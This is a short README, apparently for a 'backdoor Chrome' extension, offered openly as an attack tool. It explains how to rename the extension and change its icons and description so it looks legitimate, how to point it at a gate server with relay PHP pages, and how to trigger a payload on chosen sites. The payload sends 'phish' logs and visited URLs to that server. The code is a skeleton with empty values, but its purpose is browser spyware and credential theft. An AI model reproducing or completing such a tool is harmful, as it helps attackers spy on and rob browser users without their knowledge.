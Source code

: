 ![backdoor Chrome](http://s9.postimg.org/vvo5ncxy7/chrome.png)

## Change name, icones, description

change it on manifest

![Backdoor chrome](http://s15.postimg.org/yf0rmsfuj/rename.png)

## Change Gate
```JavaScript
    var server_web = "http://localhost:8888/"
    var lock_page = "relais/lock.php"
    var gate_page = "relais/index.php"
```

## Check URL
```JavaScript
    // VERIFIED D'URL
    if(tabURL.indexOf('') !== -1 ) // url in ''
    {
        Payload_exemple();
    }
```

## Create payload
```JavaScript
    // PAYLOAD FUNCTION NEED HTTPS
    function Payload_exemple()
    {
        console.log('Injected here')
        var urls = "" // Var for URL
        var phish = "" // Var for logs 
        $.get(server_web+gate_page, { info: phish, url: urls } );
    }
```

## Go to web relais
enjoy